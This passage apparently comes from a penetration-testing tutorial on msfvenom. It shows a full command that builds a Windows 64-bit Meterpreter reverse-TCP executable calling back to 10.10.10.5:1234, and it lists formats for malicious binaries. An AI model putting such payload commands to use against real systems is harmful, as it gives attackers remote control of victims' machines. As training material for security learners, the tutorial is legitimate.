 It gets the actual platform from the actual module or the payload that we specified.

```
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > /home/kali/Desktop/Windows_Payloads/payloadx64.exe
```

You can see that we have the payloadx64.exe, which is suitable for 64-bit versions of Windows. And the 32-bit payload can be executed on both 32-bit versions of Windows as well as 64-bit versions of Windows.

```
ls
```

You can list out the output formats available. That will provide you with a list of formats that you can output your payloads into.

```
msfvenom --list formats
```

And they are sorted based on executable format.

These are the formats that can be directly executed, and they are sorted based on the target operating system or platform.

If you want an executable file, you can output it into asp, aspx, aspx-exe, dll file for Windows. If you're trying to generate a malicious Linux binary, you can use the elf option. If you are trying to generate a malicious Linux shared object file, you can use the elf shared object option `elf-so`. If you are trying to generate a Windows executable, you can say exe, or exe-only, exe-service, exe-small, etc. You have your other options here for Java or Java web servers. So you have your jar file, jsp file. You can also generate msi files for Windows as well as OSX or Mac OSX app files for execution on MacOS targets.

```
asp
aspx
aspx-exe
dll
elf
elf-so
exe
exe-only
exe-service
exe-small
jar
jsp
msi
msi-nouac
osx-app
```

You have the Framework Transform Formats, which allow you to output the payloads into either a Python file, a Ruby file that can then be modified later, or even a hex file if you want.

```
hex
python
ruby
```
